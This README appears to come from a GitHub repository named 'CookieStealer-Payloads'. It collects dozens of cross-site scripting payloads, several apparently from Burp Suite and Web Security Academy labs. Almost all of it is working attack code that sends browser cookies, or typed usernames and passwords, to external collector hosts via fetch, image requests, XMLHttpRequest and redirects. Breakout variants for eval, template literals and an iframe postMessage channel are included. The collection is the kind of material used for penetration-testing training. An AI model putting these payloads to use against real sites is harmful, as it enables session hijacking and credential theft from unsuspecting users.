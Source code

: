 
# CookieStealer-Payloads  

>Cookie Stealer payloads using Javascript

```Javascript
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```  

>Reflected XSS into HTML context with nothing encoded in search.  

```JavaScript
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```  

>Reflected DOM XSS, into JSON data that is processed by **eval().**  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

>JavaScript Template literals are enclosed by backtick ( \` ) characters instead of double or single quotes.  

```JavaScript
${document.location='https://tvsw9dim0doynnpscx9mgtq67xdo1jp8.oastify.com/?cookies='+document.cookie;}
```  

![javascript-template-string.png](../images/javascript-template-string.png)  

>More Cross-Site Scripting (XSS) example cookie stealer payloads.  

```Javascript
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

```Javascript
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```

```Javascript
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;
```

```Javascript
document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

```Javascript
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```

```Javascript
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```

```Javascript
<img src=x onerror=this.src=//exploit.net/?'+document.cookie;>
```

```Javascript
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```Javascript
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```Javascript
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```Javascript
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```Javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

```Javascript
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

```Javascript
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

```Javascript
<img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>::::  Steal Password / Cookie Stealer ::::

>XMLHttpRequest

```html
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

>FETCH API

```Javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>::::  DATA EXFILTRATION  /  COOKIE STEALER  ::::
```Javascript
  </textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 
```

```Javascript
<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>
```

```Javascript
<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>
```

```Javascript
<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>
```  

>IFRAMEs

```JavaScript
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```  

>Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.  

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```
